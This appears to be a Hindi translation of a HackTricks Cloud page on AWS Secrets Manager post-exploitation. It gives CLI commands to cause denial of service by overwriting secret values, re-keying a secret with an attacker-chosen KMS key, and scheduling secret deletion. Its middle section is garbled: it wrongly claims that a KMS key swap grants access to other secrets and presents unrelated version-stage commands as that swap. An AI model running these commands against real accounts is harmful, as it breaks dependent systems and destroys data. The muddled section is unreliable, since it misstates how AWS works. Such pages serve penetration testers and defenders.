 # AWS - सीक्रेट्स मैनेजर पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## सीक्रेट्स मैनेजर

अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../../aws-security/aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### सीक्रेट्स पढ़ें

**सीक्रेट्स स्वयं संवेदनशील जानकारी हैं**, उन्हें पढ़ने के लिए [प्राइवेसी पेज](../../aws-security/aws-privilege-escalation/aws-secrets-manager-privesc.md) देखें।

### डीओएस सीक्रेट मान को बदलें

सीक्रेट के मान को बदलकर आप **उस मान पर निर्भर करने वाले सभी सिस्टम को डीओएस कर सकते हैं।**

{% hint style="warning" %}
ध्यान दें कि पिछले मान भी संग्रहीत होते हैं, इसलिए पिछले मान पर वापस जाना आसान होता है।
{% endhint %}
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### KMS की बदलाव में DoS

जब आप AWS सेक्रेट्स मैनेजर के साथ पोस्ट-एक्सप्लोइटेशन में होते हैं, तो आपको ध्यान देना चाहिए कि आप केवल उन सेक्रेट्स तक पहुंच प्राप्त कर सकते हैं जिनके लिए आपको पहले से ही अनुमति है। लेकिन, अगर आपको एक AWS सेक्रेट्स मैनेजर सेक्रेट की अनुमति है, तो आप उसके कीएमएस कुंजी को बदल सकते हैं और इसका उपयोग करके दूसरे सेक्रेट्स तक पहुंच प्राप्त कर सकते हैं।

इसके लिए, आपको निम्नलिखित कदमों का पालन करना होगा:

1. AWS CLI का उपयोग करके अपने AWS खाते में लॉगिन करें।
2. निम्नलिखित कमांड का उपयोग करके वर्तमान कीएमएस कुंजी की जानकारी प्राप्त करें:

```plaintext
aws secretsmanager describe-secret --secret-id <secret_id>
```

3. निम्नलिखित कमांड का उपयोग करके नई कीएमएस कुंजी बनाएं:

```plaintext
aws kms create-key
```

4. निम्नलिखित कमांड का उपयोग करके नई कीएमएस कुंजी का आईडी प्राप्त करें:

```plaintext
aws kms list-keys
```

5. निम्नलिखित कमांड का उपयोग करके वर्तमान कीएमएस कुंजी को नई कीएमएस कुंजी से बदलें:

```plaintext
aws secretsmanager update-secret-version-stage --secret-id <secret_id> --version-stage AWSCURRENT --remove-from-version-stage
aws secretsmanager update-secret-version-stage --secret-id <secret_id> --version-stage AWSPREVIOUS --remove-from-version-stage
aws secretsmanager update-secret-version-stage --secret-id <secret_id> --version-stage AWSPENDING --remove-from-version-stage
aws secretsmanager update-secret-version-stage --secret-id <secret_id> --version-stage AWSCURRENT --move-to-version-stage VersionId=<new_key_id>,VersionStage=AWSPENDING
```

इसके बाद, आपको नई कीएमएस कुंजी का उपयोग करके सेक्रेट्स तक पहुंच प्राप्त कर सकते हैं।
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### डीओएस सीक्रेट हटाना

सीक्रेट को हटाने के लिए न्यूनतम दिनों की संख्या 7 है।
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **फॉलो** करें मुझे **ट्विटर** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें** PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में.

</details>
